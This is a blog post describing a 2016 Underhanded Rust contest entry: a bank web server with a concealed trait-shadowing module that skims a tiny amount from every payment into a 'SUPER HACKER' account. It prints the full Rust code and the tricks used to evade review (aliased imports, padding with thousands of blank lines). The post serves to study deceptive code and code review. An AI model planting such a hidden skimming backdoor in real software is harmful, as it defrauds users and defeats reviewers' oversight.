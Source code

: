 ```yaml
---
layout: post
title:  "serejkaaa512's 2016 Underhanded Rust Entry - Poisoned with module import"
categories: underhanded
lang: en-US
author: serejkaaa512
---
```


**Note: This post was written by serejkaaa512 to describe their entry in the 2016 Underhanded Rust contest, which can be found [here](https://github.com/rust-community/underhanded-submissions/tree/master/2016/serejkaaa512/submission2).**

To increase my chances in [Underhanded Rust](https://underhanded.rs) i wrote another
simple web-server, that has a small defect. It quietly carves out fractions of a penny 
from each transaction into an account used by SUPER HACKER. To make it i
used Rust Module Import System.

There are [Crates and Modules chapter](https://doc.rust-lang.org/stable/book/crates-and-modules.html) and [Traits chapter](https://doc.rust-lang.org/stable/book/traits.html) in the Rust Book.

# Ideas

The first idea, that came to me, was "different traits can have the 
same named functions". So we can do something like this:

```rust
mod a {
    pub struct Person;
    pub trait Bank {
        fn pay(&self);
    }
    impl Bank for Person {
        fn pay(&self) {
            println!("Payedddd to bank!!");
        }
    }
}

mod b {
    use a;
    pub trait Bank {
        fn pay(&self);
    }
    impl<T> Bank for T
        where T: a::Bank
    {
        fn pay(&self) {
            println!("Hacked!");
            <Self as a::Bank>::pay(self);
        }
    }
}

fn main() {
    // use a::Bank;
    use b::Bank;
    let p = a::Person {};
    p.pay();
}
```
But in this case used trait is not hidden and the reviewing guy
could say "busted!" and put poor programmer in jail or hire in Microsoft.

So to hide it i tried to use `as` keyword and it works. It has very
tricky behaviour. It doesn't work in other `use` statements, but works
in another code. So if we change main function, it is still be working:

```ignore
fn main() {
    use a as c;
    use c::Bank;
    let p = c::Person {};
    p.pay();
}

```
Notice that `c::Bank` and `c::Person` are seemed to be imported from one
module - `a`. But that's not true.

# Technical part

The technical part is also not so excited. I found nothing better than
put exploited module in lib.rs and separate it from other code by thousands 
of empty lines. -,-

The module looks like this:

```rust
mod bank {
    use mybank;
    use mybank::{Person, Payment};
    use rustc_serialize::json::Json;


    pub trait Service {
        fn add_payment(&mut self, pay: Payment) -> String;
        fn add_customer(&mut self, customer: Person) -> String;
        fn get_account_info(&mut self, customer: Person) -> String;
    }

    impl<T> Service for T
        where T: mybank::Service
    {
        fn add_customer(&mut self, customer: Person) -> String {
            <Self as mybank::Service>::add_customer(self, customer)
        }

        fn add_payment(&mut self, pay: Payment) -> String {
            let hacker = Person {
                firstname: "SUPER".to_string(),
                lastname: "HACKER".to_string(),
            };
            let acc_info = <Self as mybank::Service>::get_account_info(self, hacker.clone());
            let json = Json::from_str(&acc_info).unwrap();
            let account = json["account"].as_string().unwrap().to_string();
            let hacker_pay = Payment {
                customer: hacker,
                account: account,
                amount: 0.00001f64,
            };
            println!("Hacked!");
            <Self as mybank::Service>::add_payment(self, hacker_pay);
            let corrected_pay = Payment {
                customer: pay.customer,
                account: pay.account,
                amount: pay.amount - 0.00001f64,
            };
            <Self as mybank::Service>::add_payment(self, corrected_pay)
        }

        fn get_account_info(&mut self, customer: Person) -> String {
            <Self as mybank::Service>::get_account_info(self, customer)
        }
    }
}
```

On server side i used these imports:

```rust
use mybank as bank;
use bank::Service;
```

# The End 

Poisoned module pays salary to SUPER HACKER and reviewing guy is happy, because
there are no errors and everything seems working great.

Thanks 2 $)
